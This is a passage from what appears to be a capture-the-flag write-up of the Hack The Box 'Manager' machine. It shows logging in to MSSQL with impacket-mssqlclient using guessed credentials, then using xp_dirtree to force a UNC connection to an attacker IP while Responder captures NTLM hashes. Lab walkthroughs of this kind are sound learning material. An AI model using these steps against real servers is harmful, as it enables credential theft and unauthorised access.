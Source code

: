 ```bash
impacket-mssqlclient -p 1433 manager.htb/'operator':'operator'@manager.htb
```

![image.png](/assets/images/Manager_HTB/image%2013.png)

Tried doing normal authentication but it failed to authenticate.

Now using the windows authentication to connect to the mssql server.

```bash
impacket-mssqlclient -p 1433 manager.htb/'operator':'operator'@manager.htb -windows-auth
```

![image.png](/assets/images/Manager_HTB/image%2014.png)

And we are in !!!

Tried to do enable the xp_cmdshell but it failed, so tried witht the xp_dirtree and exploit the UNC path vulnerability.

```bash
xp_dirtree //10.10.14.10/something
responder -I tun0
```

![image.png](/assets/images/Manager_HTB/image%2015.png)

![image.png](/assets/images/Manager_HTB/image%2016.png)

